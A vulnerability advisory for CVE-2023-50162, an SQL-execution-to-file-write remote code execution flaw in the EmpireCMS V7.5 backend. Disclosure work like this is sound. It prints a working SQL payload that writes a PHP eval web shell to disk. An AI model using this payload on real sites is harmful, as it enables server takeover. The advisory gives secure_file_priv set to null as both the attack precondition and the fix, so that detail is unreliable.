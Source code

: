 # CVE2023-50162
## Vulnerability: SQL Statement Execution File Upload Remote Code Execution (RCE)
### [NAME OF AFFECTED PRODUCT(S)]:EmpireCMS
### [AFFECTED AND/OR FIXED VERSION(S)]: V7.5
### [PROBLEM TYPE] SQL Statement Execution File Upload Remote Code Execution (RCE)
## [DESCRIPTION]
Accessing the backend:

![image](https://github.com/Teresazdy/CVE/assets/72858713/3d1f8193-9eb2-49af-b6a6-1dacc4c5ee64)

Execute the following SQL statement:

select '<?php eval($_POST[1]);?>' into dumpfile '/Users/zhaozhouqiao/site/evil.php';

You can see that the file has been successfully written.

![image](https://github.com/Teresazdy/CVE/assets/72858713/fe2de9d7-208a-4b6f-bce2-92a9c0a301dc)

Subsequently, access evil.php to execute the code:

![image](https://github.com/Teresazdy/CVE/assets/72858713/3be1ce72-87a2-466f-aa03-14eaffe77cdd)

Note: The prerequisite is that the MySQL variable secure_file_priv must be set to null.

## Code Analysis:
Firstly, in the following code snippet, the content of the POST request is directly passed to the DoExecSql function without any filtering.

![image](https://github.com/Teresazdy/CVE/assets/72858713/88f38910-b703-4ed7-b072-92997893136b)

The code below passes the content of the query variable to DoRunQuery for execution:

![image](https://github.com/Teresazdy/CVE/assets/72858713/1f9c3215-3a7b-4dd1-952c-854d1f973f45)

The execution process lacks any filtering, directly executing the SQL statements provided by the user:

![image](https://github.com/Teresazdy/CVE/assets/72858713/e27ce18f-d942-4d3c-aa82-da5bc9c88ee9)

Therefore, it is possible to achieve arbitrary file upload using statements like select into outfile.

## Mitigation Measures:
Set secure_file_priv for the MySQL database to null to prevent file uploads.






